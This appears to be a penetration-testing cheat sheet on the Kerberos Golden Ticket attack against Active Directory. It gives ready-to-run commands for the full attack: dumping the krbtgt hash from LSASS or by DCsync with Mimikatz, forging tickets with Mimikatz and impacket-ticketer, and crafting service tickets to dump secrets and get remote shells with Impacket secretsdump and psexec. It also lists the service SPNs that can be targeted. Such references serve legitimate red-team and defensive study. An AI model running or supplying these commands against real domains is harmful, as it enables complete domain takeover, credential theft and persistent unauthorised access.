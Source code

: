 # Golden Ticket

#### Priv Required: <mark style="color:purple;">krbtgt account hash</mark>

KRBTGT is the account used for Microsoft's implementation of Kerberos. The name is derived from Kerberos (KRB) and Ticket Granting Ticket (TGT). Essentially, this account acts as the service account for the Kerberos Distribution Center (KDC) service, which handles all Kerberos ticket requests. This account is used to encrypt and sign all Kerberos tickets for the domain (includes all domain forest). Since the password hash is shared by all domain controllers of all forest, they can then verify the authenticity of the received TGT when users request access to resources.

However, what if we want to generate our own TGTs to grant us access to everything? This is known as a **Golden Ticket attack**. In a Golden Ticket attack, we bypass the KDC altogether and create our own TGTs, essentially becoming a Ticket Granting Server (TGS). In order to forge TGTs, we need the following information:

* The FQDN of the domain
* The Security Identifier (SID) of the domain
* The username of the account we want to impersonate
* The KRBTGT password hash





#### Necessary Elements:

* **Domain SID**
* **NTLM hash** of **krbtgt account**
* **Domain name**
* **SIDS** (in Cross-Forest Attacks)

#### Methodology:

* Extract **Domain Admin** account's **NTML hash**
* Execute **Pass-the-Hash**
* Retrive **KRBTGT Account hash**
* **Forge** and use a Golden Ticket

## Get Domain Info

### SID

{% code title="From Windows" %}
```powershell
powershell -ep bypass
. .\PowerView.ps1

Get-DomainSID
```
{% endcode %}

{% code title="Powershell" %}
```powershell
whoami /all
```
{% endcode %}

{% code title="From Linux - Impacket" %}
```bash
cd /usr/share/doc/python3-impacket/examples/ # Kali location
lookupsid.py -hashes '$LMhash:$NThash' '$DOMAIN/$USER@$DOMAIN_CONTROLLER' 0
```
{% endcode %}

## Get Domain Admin Account

the first task is obtained a Domain Admin user account with elevated privilege into Domain Controller.

We can use Pass-the-Hash, crack password hash or find plain-text password.

{% content-ref url="../ad-lateral-movement/pass-the-hash.md" %}
[pass-the-hash.md](../ad-lateral-movement/pass-the-hash.md)
{% endcontent-ref %}

{% content-ref url="../ad-enumeration/password-sprayng.md" %}
[password-sprayng.md](../ad-enumeration/password-sprayng.md)
{% endcontent-ref %}

{% content-ref url="../ad-post-compromise-attacks/kerberoasting.md" %}
[kerberoasting.md](../ad-post-compromise-attacks/kerberoasting.md)
{% endcontent-ref %}

Or other ways...

## Get krbtgt's NTLM hash

The second task is obtain the NTLM hash of the krbtgt account. These are the methods to obtain it:

### LSASS

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computer $DC_NAME

Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"' -Computer $DC_NAME
```

<figure><img src="../../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

### NT Directory Services (NTDS.dll)

...

### DCsync attack

To acquire the NTLM hash of the krbtgt account, various methods can be employed. It can be extracted from the Local Security Authority Subsystem (LSASS) process or the NT Directory Services (NTDS.dll) file located on any Domain controller (DC) within the domain.\
Furthermore, executing a DCsync attack is another strategy to obtain this NTLM hash, which can be performed using tools such as the "lsadump::dcsync" in Mimikatz or the secretsdump.py script by Impacket. It's important to unserscore that to undertake these operations, domain admin pribileges or a similar level of access is typically required.

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:DOMAIN\krbtgt"'
```



## Forge Golden Ticket



{% code title="From Windows - Invoke-Mimikatz" overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:$DOMAIN.local /sid:$DOMAIN_SID /krbtgt:$NTLM_HASH_KRBTGT /id:500 /groups:512 /startoffset:0 /end:600 /renewmax:10080 /ptt"'
```
{% endcode %}

> id:**500** or group\_id:**512** it's a default id of administrator user in windows



{% code title="From Linux - Impacket" overflow="wrap" %}
```bash
# Create the golden ticket (with an RC4 key, i.e. NT hash)
impacket-ticketer -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" "$RANDOMUSER" -groups 512 -user-id 1114

# Create the golden ticket (with an AES 128/256bits key)
impacket-ticketer -aesKey "$krbtgtAESkey" -domain-sid "$domainSID" -domain "$DOMAIN" "randomuser" -groups 512 -user-id $TARGET_USER_ID

# Create the golden ticket (with an RC4 key, i.e. NT hash) with custom user/groups ids
impacket-ticketer -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" -user-id "$USERID" -groups "$GROUPID1,$GROUPID2,..." "randomuser" -groups 512 -user-id $TARGET_USER_ID
```
{% endcode %}

{% hint style="warning" %}
Then target user must be in the Domain
{% endhint %}



Check the klist

```powershell
klist
```

## Use Golden Ticket

When we generate a ticket, we'll have a TGT (Ticket Granting Ticket). To use this ticket for a specific service, we have to craft an ST (Service Ticket) for the specific service we want.

This is all the services available for crafting a ST

<details>

<summary>SPNs list</summary>

| `CIFS/hostname`            | SMB / File shares / Smbclient                 | Often used for lateral movement or dumping files |
| -------------------------- | --------------------------------------------- | ------------------------------------------------ |
| `HOST/hostname`            | RDP, WMI, PsExec, WinRM                       | Generic system access — many tools use this      |
| `LDAP/hostname`            | LDAP directory queries                        | Used to query AD objects                         |
| `HTTP/hostname`            | WinRM, web services, Outlook Web Access (OWA) | Required for PowerShell Remoting                 |
| `RPCSS/hostname`           | Remote Procedure Call                         | Rare, used in some remote COM/DCOM scenarios     |
| `MSSQLSvc/hostname:port`   | Microsoft SQL Server                          | Enumerate or access databases                    |
| `WSMAN/hostname`           | PowerShell Remoting                           | Alternative to `HTTP/hostname` for WinRM         |
| `SMTPSVC/hostname`         | SMTP (Exchange)                               | Email systems                                    |
| `IMAP/hostname`            | IMAP (Exchange)                               | Mailbox access                                   |
| `POP/hostname`             | POP3 (Exchange)                               | Mailbox access                                   |
| `TERMSRV/hostname`         | Remote Desktop Services (RDP)                 | For interacting with Terminal Services           |
| `VPN/hostname`             | VPN services                                  | Rare, usually edge devices                       |
| `WINRM/hostname`           | PowerShell Remoting                           | Also often mapped to `HTTP/hostname`             |
| `FQDN$` (computer account) | Implicitly covered under `HOST/hostname`      | Used when impersonating computer accounts        |
| `SVC/hostname` (custom)    | Custom apps registered with SPNs              | Use `setspn -Q */hostname` to enumerate          |

</details>



### mimikatz

Once we have created the Golden Ticket with mimikatz in the current session, we have to open a new cmd to the current privileges.

```powershell
mimikatz > misc::cmd # this open cmd promt with current privileges
```

### secretsdump.py

{% code overflow="wrap" %}
```bash
export KRB5CCNAME=$(pwd)/NAME.ccache

# create a ST for CIFS service 
impacket-getST -spn 'CIFS/TARGET_DOMAIN' -k -no-pass DOMAIN/USER_OF_THE_TGT -debug

# set the new ST
export KRB5CCNAME=$(pwd)/NAME.ccache

# use ST to use secretdump
imapcket-secretsdump -no-pass -k -dc-ip $DC_IP $DOMAIN.local/$NAME@$MACHINE.$DOMAIN.local
```
{% endcode %}

### psexec

```bash
export KRB5CCNAME=$(pwd)/NAME.ccache

impacket-psexec administrator@<DC_IP> -k -no-pass
```

## GoldenCopy

You encounter limitations with your golden tickets (DACLs, detection)? GoldenCopy retrieves all the information (ID, groups, etc) of a specific user in a neo4j database (bloodhound) and prepares the mimikatz/ticketer command to impersonate his permissions.

{% embed url="https://github.com/Dramelac/GoldenCopy" %}



## Resources

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden" %}







